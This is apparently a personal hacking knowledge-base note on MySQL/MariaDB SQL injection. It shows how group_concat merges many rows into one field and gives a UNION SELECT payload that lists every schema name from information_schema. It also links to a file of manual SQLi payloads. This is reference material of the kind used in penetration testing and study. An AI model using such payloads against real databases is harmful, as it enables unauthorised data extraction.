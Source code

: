 # mariadb mysql SQLi concat multiple values into one field rows
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

# References
- [20221003150987](/zet/20221003150987/) mariadb mysql SQLi
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md

Tags:
    #assorted

